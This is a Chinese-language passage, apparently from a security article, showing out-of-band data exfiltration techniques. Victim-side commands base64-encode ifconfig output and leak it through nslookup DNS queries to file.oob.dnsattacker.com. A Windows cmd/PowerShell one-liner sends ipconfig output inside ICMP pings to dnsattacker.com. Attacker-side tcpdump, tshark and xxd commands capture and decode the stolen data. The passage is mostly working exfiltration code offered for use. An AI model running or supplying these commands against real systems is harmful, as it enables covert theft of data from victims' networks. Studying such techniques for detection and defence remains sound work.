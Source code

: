 攻击者：

```bash
sudo tcpdump -n port 53 | tee file.txt
```

提取和构建输出：

```bash
echo "0x$(cat file.txt |tr ' ' '\n' |awk '/file.oob.dnsattacker.com/ {print $1}'|sort -u| cut -d '.' -f 2|tr -d '\n')" | xxd -r -p
```

[![信息外带漏洞(OOB)利用技巧](https://image.3001.net/images/20180911/1536629792_5b971c20aa1f9.png!small)](https://image.3001.net/images/20180911/1536629792_5b971c20aa1f9.png)

与十六进制编码相比，Base64编码文件会小很多。

受害者：

```bash
var=11111 && for i in $(ifconfig|base64|awk '{gsub(/.{50}/,"&\n")}1'); do var=$((var+1)) && nslookup $var.$i.file.oob.dnsattacker.com; done# Sending file in base64
```

攻击者：

```bash
cat file2.txt |tr ' ' '\n' |awk '/file.oob.dnsattacker.com/ {print $1}'|sort -u| cut -d '.' -f 2|tr -d '\n'|base64 -d    # Extracting Output
```

[![信息外带漏洞(OOB)利用技巧](https://image.3001.net/images/20180911/1536629818_5b971c3ab5d9c.png!small)](https://image.3001.net/images/20180911/1536629818_5b971c3ab5d9c.png)

### 3. ICMP

**Windows**

受害者

```bash
cmd /v /c "ipconfig > output.txt && powershell $text=Get-Content output.txt;$ICMPClient = New-Object System.Net.NetworkInformation.Ping;$PingOptions = New-Object System.Net.NetworkInformation.PingOptions;$PingOptions.DontFragment = $True;$sendbytes = ([text.encoding]::ASCII).GetBytes($text);$ICMPClient.Send('dnsattacker.com',60 * 1000, $sendbytes, $PingOptions);
```

攻击者

```bash
sudo tcpdump 'icmp and src host 202.14.120.xx' -w powericmp.pcap  #To capture
```

提取数据：

```bash
echo "0x$(tshark -n -q -r powericmp.pcap -T fields -e data.data | tr -d '\n' | tr -d ':')" | xxd -r -p   #Or Use Wireshark gui
```

**![信息外带漏洞(OOB)利用技巧](https://image.3001.net/images/20180911/1536629847_5b971c57ea468.png!small)**
